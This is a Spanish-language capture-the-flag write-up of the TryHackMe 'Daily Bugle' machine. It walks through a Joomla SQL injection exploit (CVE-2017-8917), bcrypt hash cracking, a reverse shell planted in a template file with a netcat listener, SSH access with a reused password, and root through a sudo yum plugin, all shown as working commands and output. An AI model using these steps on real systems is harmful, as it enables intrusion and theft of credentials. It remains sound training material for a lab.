


## Puertos abiertos

```
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)
```

----

## Servicio web 80

Version del gestor Joomla:

```
http://10.10.100.190/README.txt
```



### SQL Injection

CVE 2017-8917: Vulnerabilidad de inyección SQL en Joomla! 3.7.x antes de 3.7.1 permite a los atacantes ejecutar comandos SQL arbitrarios a través de vectores no especificados.

Busqueda en GooGle por CVE

```
https://github.com/SiopySh/CVE-2017-8917
```

```
❯ sudo python3 cve20178917.py
     _                           _           ____ __     __ _____ 
    | |  ___    ___   _ __ ___  | |  __ _   / ___|\ \   / /| ____|
 _  | | / _ \  / _ \ | '_ ` _ \ | | / _` | | |     \ \ / / |  _|  
| |_| || (_) || (_) || | | | | || || (_| | | |___   \ V /  | |___ 
 \___/  \___/  \___/ |_| |_| |_||_| \__,_|  \____|   \_/   |_____|
                                                                  

--- Version : Joomla 3.7.0 ---
--- Date : 05/27/2021 ---
--- CVE : CVE-2017-8917 ---
--- Exploit Author : SiopySh <contact@siopysh.com> - Twitter @siopysh ---
 
URL (ex: http://10.10.10.10/) : http://10.10.100.190/
 
* Database prefix : fb9j5
* Joomla user : jonah
* Joomla user mail : jonah@tryhackme.com
* Joomla user password : $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
* Database user : root@localhost
* Database name : joomla
* Database version : 5.5.64-MariaDB
```

Detectando el tipo de hash

```
❯ hashid "\$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm"
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

Obteniendo la contraseña

```
❯ john --show hash
?:spiderman123

1 password hash cracked, 0 left
```

Obtenido las crednciales me logue en el directorio **administrator** de Joomla

```
http://10.10.176.227/administrator/index.php
```




## Shell inverso

Edito la plantilla del tema `protostar` el fichero `error.php`

Realizo una petición GET y obtengo shell como usuario `apache`

```
❯ curl "10.10.176.227/templates/protostar/error.php"


──────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.176.227] 45328
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:33:55 up 31 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

## Shell como usuario jjameson

Enumerando el sistema encuentro un fichero `configuration.php` con contraseña de la base de datos.  
Por tanto intento conectarme por ssh el usuario jjameson 

```
bash-4.2$ cat /var/www/html/configuration.php | grep pass
[...]
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $ftp_pass = '';
        public $smtppass = '';
[...]
```

ssh

```
❯ ssh jjameson@10.10.176.227
jjameson@10.10.176.227's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ whoami
jjameson
```

## Escalada de privilegios

Abusando del permiso sudo

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

[https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Si sudo permite que el binario se ejecute como superusuario, no elimina los privilegios elevados y puede usarse para acceder al sistema de archivos, escalar o mantener el acceso privilegiado.

Genere un shell raíz interactivo cargando un complemento personalizado.

```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Complementos cargados:y
No hay un complemento que se corresponda con: y
sh-4.2# whoami
root
```

Más:

```
> cat /etc/sudoers
[...]
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL

jjameson        ALL=(ALL) NOPASSWD: /usr/bin/yum
[...]
```

